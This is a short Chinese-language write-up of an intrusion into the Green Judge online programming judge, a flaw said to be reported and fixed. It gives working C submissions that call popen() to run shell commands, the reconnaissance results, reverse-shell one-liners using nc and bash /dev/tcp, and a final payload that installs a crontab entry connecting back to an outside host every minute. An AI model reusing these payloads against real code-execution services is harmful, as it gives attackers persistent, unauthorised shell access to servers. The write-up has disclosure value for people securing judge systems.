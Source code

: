 ```yaml
---
layout: default
---
```


# Green Judge backdoor
## 此漏洞已被修復
### [Hitcon Zeroday](https://zeroday.hitcon.org/vulnerability/ZD-2020-00877)
## 序言

反正這個後門是我學長告訴我說，Green Judge之前有一個沒封過的後門

然後依照我就去找了以下他的system function可用的只有popen（我沒測過別的可用的）

花了一個學期我學會了很多系統的技巧我才成功開後門進去

## 實作 

依照我原本測試的popen只要這樣就能寫入指令

```c
#include <stdio.h>
#include <string.h>

int main(void) {
	//shell command
	char* command=(char*)"echo test";

	popen(command, "r");

	return 0;
};
```

然而要print &1的話...

```c
#include <stdio.h>
#include <string.h>

#define COMMAND_LENTH 32
int main(void) {
	char CMBuf[ COMMAND_LENTH ]={0};
	FILE *fpRead;
	
	//shell command
	char* command=(char*)"echo Hello!";
	char* renewCh;

	fpRead = popen(command, "r");
	fgets(CMBuf, COMMAND_LENTH , fpRead);
	
	if(fpRead != NULL)
		pclose(fpRead);

	renewCh=strstr(CMBuf,"\n");
	if(renewCh)
		*renewCh= '\0';
	printf("%s\n", CMBuf);
	
	return 0;
};
```

這樣甚至可以解第一題Hello!

### 收集資訊

uname:FreeBSD

id:tomcat staff

pwd:/root

ls:無法顯示

passwd:無法完整顯示

which nc:/usr/local/bin/nc

### reverse shell

開始測試reverse shell

```sh
nc -c /bin/sh ip port
```

然後我回想到FreeBSD不能使用nc -c

只好使用bash tcp 傳送了

```sh
/usr/local/bin/bash -c '/usr/local/bin/bash -i >& /dev/tcp/myip/port 0>&1'
```

結果他測資有時間限制所以CE= =

過了一個月我才想到user本身有crontab的權限

然而FreeBSD的語法不允許pipeline進去

所以用寫入的方式，結果我又忘記/root正常沒有寫入權限

所以最終結果長這個樣子

```c
#include <stdio.h>
#include <string.h>

#define COMMAND_LENTH 32
int main(void) {
	char CMBuf[ COMMAND_LENTH ]={0};
	FILE *fpRead;
	
	//shell command
	char* command=(char*)"echo \"* * * * *  /usr/local/bin/bash -c \'/usr/local/bin/bash -i >& /dev/tcp/cnmc.tw/8080 0>&1\'\">/home/tomcat/backdoor;crontab /home/tomcat/backdoor&&echo Hello!";
	char* renewCh;

	fpRead = popen(command, "r");
	fgets(CMBuf, COMMAND_LENTH , fpRead);
	
	if(fpRead != NULL)
		pclose(fpRead);

	renewCh=strstr(CMBuf,"\n");
	if(renewCh)
		*renewCh= '\0';
	printf("%s\n", CMBuf);
	
	return 0;
};
```

### 提權

待補

而且我發現已經有人進去過ㄌQQ
